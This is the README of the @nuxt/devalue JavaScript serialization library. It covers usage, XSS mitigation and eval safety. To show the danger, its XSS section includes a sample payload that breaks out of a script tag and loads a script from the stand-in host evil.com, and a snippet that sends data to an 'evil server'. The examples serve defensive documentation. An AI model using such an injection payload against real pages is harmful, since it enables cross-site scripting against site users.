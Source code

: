 # @nuxt/devalue

[![npm version][npm-version-src]][npm-version-href]
[![npm downloads][npm-downloads-src]][npm-downloads-href]
[![codecov][codecov-src]][codecov-href]
[![package phobia][package-phobia-src]][package-phobia-href]
[![bundle phobia][bundle-phobia-src]][bundle-phobia-href]

> Forked from [devalue](https://github.com/Rich-Harris/devalue) to log errors on non-serializable properties rather than throwing `Error`.

Like `JSON.stringify`, but handles

* cyclical references (`obj.self = obj`)
* repeated references (`[value, value]`)
* `undefined`, `Infinity`, `NaN`, `-0`
* regular expressions
* dates
* `Map` and `Set`
* `.toJSON()` method for non-POJOs

Try it out on [runkit.com](https://npm.runkit.com/@nuxt/devalue).

## Goals:

* Performance
* Security (see [XSS mitigation](#xss-mitigation))
* Compact output


## Non-goals:

* Human-readable output
* Stringifying functions or arbritary non-POJOs


## Usage

```js
import devalue from '@nuxt/devalue';

let obj = { a: 1, b: 2 };
obj.c = 3;

devalue(obj); // '{a:1,b:2,c:3}'

obj.self = obj;
devalue(obj); // '(function(a){a.a=1;a.b=2;a.c=3;a.self=a;return a}({}))'
```

If `devalue` encounters a function or a non-POJO, it will throw an error.


## XSS mitigation

Say you're server-rendering a page and want to serialize some state, which could include user input. `JSON.stringify` doesn't protect against XSS attacks:

```js
const state = {
  userinput: `</script><script src='https://evil.com/mwahaha.js'>`
};

const template = `
<script>
  // NEVER DO THIS
  var preloaded = ${JSON.stringify(state)};
</script>`;
```

Which would result in this:

```html
<script>
  // NEVER DO THIS
  var preloaded = {"userinput":"</script><script src='https://evil.com/mwahaha.js'>"};
</script>
```

Using `devalue`, we're protected against that attack:

```js
const template = `
<script>
  var preloaded = ${devalue(state)};
</script>`;
```

```html
<script>
  var preloaded = {userinput:"\\u003C\\u002Fscript\\u003E\\u003Cscript src=\'https:\\u002F\\u002Fevil.com\\u002Fmwahaha.js\'\\u003E"};
</script>
```

This, along with the fact that `devalue` bails on functions and non-POJOs, stops attackers from executing arbitrary code. Strings generated by `devalue` can be safely deserialized with `eval` or `new Function`:

```js
const value = (0,eval)('(' + str + ')');
```


## Other security considerations

While `devalue` prevents the XSS vulnerability shown above, meaning you can use it to send data from server to client, **you should not send user data from client to server** using the same method. Since it has to be evaluated, an attacker that successfully submitted data that bypassed `devalue` would have access to your system.

When using `eval`, ensure that you call it *indirectly* so that the evaluated code doesn't have access to the surrounding scope:

```js
{
  const sensitiveData = 'Setec Astronomy';
  eval('sendToEvilServer(sensitiveData)'); // pwned :(
  (0,eval)('sendToEvilServer(sensitiveData)'); // nice try, evildoer!
}
```

Using `new Function(code)` is akin to using indirect eval.


## See also

* [lave](https://github.com/jed/lave) by Jed Schmidt
* [arson](https://github.com/benjamn/arson) by Ben Newman
* [tosource](https://github.com/marcello3d/node-tosource) by Marcello Bastéa-Forte
* [serialize-javascript](https://github.com/yahoo/serialize-javascript) by Eric Ferraiuolo


## License

[MIT](LICENSE)

<!-- Refs -->
[npm-version-src]: https://flat.badgen.net/npm/v/@nuxt/devalue/latest
[npm-version-href]: https://www.npmjs.com/package/@nuxt/devalue

[npm-downloads-src]: https://flat.badgen.net/npm/dm/@nuxt/devalue
[npm-downloads-href]: https://www.npmjs.com/package/@nuxt/devalue

[circleci-src]: https://flat.badgen.net/circleci/github/nuxt/devalue
[circleci-href]: https://circleci.com/gh/nuxt/devalue

[package-phobia-src]: https://flat.badgen.net/packagephobia/install/@nuxt/devalue
[package-phobia-href]: https://packagephobia.now.sh/result?p=@nuxt/devalue

[bundle-phobia-src]: https://flat.badgen.net/bundlephobia/minzip/@nuxt/devalue
[bundle-phobia-href]: https://bundlephobia.com/result?p=@nuxt/devalue

[codecov-src]: https://flat.badgen.net/codecov/c/github/nuxt/devalue/master
[codecov-href]: https://codecov.io/gh/nuxt/devalue
